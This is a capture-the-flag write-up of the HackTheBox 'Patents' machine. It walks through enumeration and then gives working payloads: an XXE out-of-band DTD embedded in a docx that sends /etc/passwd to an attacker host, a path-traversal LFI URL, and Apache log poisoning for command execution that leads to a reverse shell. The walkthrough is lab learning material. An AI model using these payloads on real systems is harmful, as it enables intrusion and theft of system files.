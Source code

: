 # HackTheBox | Patents [User]

![](images/status-card.png)

## Enumeration

We begin with an nmap scan. We find open TCP ports: 22, 80, 8888

```
# Nmap 7.80 scan initiated Fri May 15 20:51:44 2020 as: nmap -sV -sC -oA nmap/patents 10.10.10.173
Nmap scan report for 10.10.10.173
Host is up (0.14s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE         VERSION
22/tcp   open  ssh             OpenSSH 7.7p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 39:b6:84:a7:a7:f3:c2:4f:38:db:fc:2a:dd:26:4e:67 (RSA)
|   256 b1:cd:18:c7:1d:df:57:c1:d2:61:31:89:9e:11:f5:65 (ECDSA)
|_  256 73:37:88:6a:2e:b8:01:4e:65:f7:f8:5e:47:f6:10:c4 (ED25519)
80/tcp   open  http            Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: MEOW Inc. - Patents Management
8888/tcp open  sun-answerbook?
| fingerprint-strings: 
|   Help, LPDString, LSCP: 
|_    LFM 400 BAD REQUEST
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port8888-TCP:V=7.80%I=7%D=5/15%Time=5EBF473F%P=x86_64-pc-linux-gnu%r(LS
SF:CP,17,"LFM\x20400\x20BAD\x20REQUEST\r\n\r\n")%r(Help,17,"LFM\x20400\x20
SF:BAD\x20REQUEST\r\n\r\n")%r(LPDString,17,"LFM\x20400\x20BAD\x20REQUEST\r
SF:\n\r\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri May 15 20:53:25 2020 -- 1 IP address (1 host up) scanned in 100.41 seconds
```

We take a look at the webpage and find that we can upload Docx files that are converted to PDFs for us to download.

We upload a sample Docx file created with python and we are able to download the converted pdf.

```python
#!/usr/bin/python3 

from docx import Document

document = Document()

document.add_heading('Document Title', 0)

p = document.add_paragraph('this is some text')

document.save('valid.docx')
```

Once we upload the document we are able to download the pdf.

![](images/download-patent.png)

We can see the downloaded pdf contents exist as a file on the server.

![](images/converted-pdf.png)

We attempt XXE but are unsuccessful.

Our initial gobuster shows several directories:

```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.173/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/05/15 21:41:53 Starting gobuster
===============================================================
/index (Status: 200)
/profile (Status: 200)
/uploads (Status: 301)
/static (Status: 301)
/upload (Status: 200)
/release (Status: 301)
/vendor (Status: 301)
/patents (Status: 301)
/output (Status: 301)
Progress: 27859 / 220561 (12.63%)^C
[!] Keyboard interrupt detected, terminating.
===============================================================
2020/05/15 21:47:56 Finished
===============================================================

```

Further enumeration reveals a changelog left by a developer in /releases.

We use ffuf with raft-large-files.txt to find the changelog left on the server with the name UpdateDetails.

```
ffuf -w /opt/SecLists/Discovery/Web-Content/raft-large-words.txt -u http://10.10.10.173/release/FUZZ -t 100 -mc 200
```

![](images/ffuf-changelog.png)

UpdateDetails:
```
v1.2 alpha:
- meow@conquertheworld: Added ability to include patents. Still experimental, it's hidden.
v1.1 release:
- gbyolo@htb: Removed "meow fixes", they weren't real fixes. 
v1.0 release:
- meow@conquertheworld: Fixed the following vulnerabilities:
        1. Directory traversal
        2. Local file inclusion (parameter)
v0.9 alpha:
- meow@conquertheworld.htb: Minor fixes, fixed 2 vulnerabilities. The Docx2Pdf App is ready.
v0.7 alpha:
- gbyolo@tb: fixed conversion parameters. Meow's changes for custom folder should now work.
v0.7 alpja:
- meow@conquertheworld.htb: enabled entity parsing in custom folder
- gbyolo@htb: added conversion of all files, to generate pdf compliant from docx
v0.6 alpha:
- gbyolo@htb: enabled docx conversion to pdf. Seems to work!
```


This changelog tells us two things:
 - There is a potential vulnerability via LFI that was left unpatched
 - We have to exploit via parameter in the *custom* directory

## Initial Foothold

Taking a look at the structure of the Docx file we can see there is a cusomXML directory.

![](images/docx-structure.png)

We find a potential exploit on [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection)

![](images/xxe-oob-dtd.png)

We inject the code into our ``` customXml/item1.xml ``` file:

```
<?xml version="1.0" ?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY % sp SYSTEM "http://10.10.14.31/dtd.xml">
%sp;
%param1;
]>
<r>&exfil;</r>
<b:Sources xmlns:b="http://schemas.openxmlformats.org/officeDocument/2006/bibliography" xmlns="http://schemas.openxmlformats.org/officeDocument/2006/bibliography" SelectedStyle="/APA.XSL" StyleName="APA"/>
```

Now we set up our local file that will be called ```dtd.xml```
```
<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % param1 "<!ENTITY exfil SYSTEM 'http://10.10.14.31/dtd.xml?%data;'>">
```

We set up a python server and upload and convert our exploit. We get the contents of /etc/passwd encoded in base64.

![](images/etc-passwd-base64.png)

We decode this and our response was valid. We can read information on the system!

![](images/etc-passwd.png)


We continue hunting for files and we are able to exfiltrate the config.php file at ```/var/www/html/docx2pdf/config.php```

```php
<?php
# needed by convert.php
$uploadir = 'letsgo/';

# needed by getPatent.php
# gbyolo: I moved getPatent.php to getPatent_alphav1.0.php because it's vulnerable
define('PATENTS_DIR', '/patents/');
?>
```

This points us to a new file. Upon browsing to the file, we can see that there is an **id** parameter.

![](images/alphav1.png)

We can exploit this again via LFI using a nested path traversal string:

```http://10.10.10.173/getPatent_alphav1.0.php?id=....//....//....//....//....//etc/passwd```

![](images/lfi-etc-passwd.png)

We see that we can read the apache log file

![](images/apache-log-file.png)

We can poison this with netcat by injecting php code into the log, that is executed when we pass the parameter and command into the url.

![](images/netcat-poison.png)

Now we can browse to
```
http://10.10.10.173/getPatent_alpha1.0.php?c=whoami&id=....//....//....//....//var/log/apache2/access.log
```
to see the execute of ```whoami``` in the log.

![](images/php-whoami.png)

We can use this to get a reverse shell.

![](images/initial-foothold.png)


## Pivoting to User

Now that we are on the box, we need to escalate to root of the container.

Using pspy, we are able to see the ouput of a script that runs that contains the root password of the docker container that we are in.

![](images/pspy.png)

We use this password (removing the escape slashes in front of $) with
```
su root
```

And we have User!

![](images/user.png)
